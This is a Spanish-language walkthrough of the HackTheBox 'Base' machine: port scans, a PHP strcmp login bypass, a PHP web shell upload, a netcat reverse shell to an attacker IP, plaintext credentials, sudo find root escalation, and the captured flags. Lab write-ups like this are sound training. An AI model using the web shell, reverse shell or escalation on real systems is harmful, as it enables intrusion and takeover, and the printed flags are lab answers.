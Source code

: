 # Base

Plataforma: HackTheBox OS: Linux Level: Very Easy Status: Done Complete: Yes EJPT: yes Created time: 15 de enero de 2025 21:11 IP: 10.129.127.10

## Recopilación de información

💡

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

***

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.127.10 -oG allports

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

***

```bash
❯ sudo nmap -p22,80 -sCV 10.129.127.10 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

* **Identificación de vulnerabilidades**
  * 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  * 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
*   **Enumeración Web**

    whatweb

    ```bash
    http://10.129.127.10 [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], Email[info@base.htb], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.127.10], Lightbox, Script, Title[Welcome to Base]
    ```

    Vemos que la web tiene una pagina de login

    ![image.png](<imagenes/image 98.png>)

    Siguiendo las indicaciones vemos que nos habla de _strcmp_&#x20;

    Buscamos como hacer el bypass al formulario de login

    [https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016).

    Se acontece pasando valores en blanco de los parametros username y password

    ![image.png](<imagenes/image 99.png>)

    Una vez hecho vemos el formulario de subida de ficheros

## Explotación

💡

### Explotación 1

Probamos a subir una revershell : cmdshell

```php
<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>
```

Accedemos al directorio de descargas /.uploaded y prbamos un woami

![image.png](<imagenes/image 100.png>)

Tenemos RCE, probamos a obtener una Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.103 4444 >/tmp/f

URlEncodeamos

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.103%204444%20%3E%2Ftmp%2Ff
```

![image.png](<imagenes/image 101.png>)

Hacemos el tratamiento de la tty

```php
script -c bash /dev/null
cntr+z
stty raw -echo; fg
reset x term
export TERM=XTERM
export SHELL=BASH

```

Encontramos usuario Jhon enumerando el /etc/passwd

En la carpeta de /var/www/html/login/config.php vemos credenciales :

```php
<?php
$username = "admin";
$password = "thisisagoodpassword"
```

Probamos a migrar a usuario Jhon

![image.png](<imagenes/image 102.png>)

En el home, encontramos el flag user.txt

```php
f54846c258f3b4612f78a819573d158e
```

###

### Escalada de privilegios

Buscamos bianrios con

```php
sudo -l
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
    
```

Buscamos en GTFObins el exploit

```php
./find . -exec /bin/sh -p \; -quit
```

Probamos :

```php
john@base:/usr/bin$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# 
```

Obtenemos la flag de root:

```php
# cat root.txt  
51709519ea18ab37dd6fc58096bea949
```

## Conclusión

💡 Maquina facil, pero que he tenido que mirar writte up porque no sabia como progresar en el tema del \*strcmp.\* ^ Pensaba que la enumeración iba por SSH y he perdido mucho tiempo probando explotis que no funcionaban
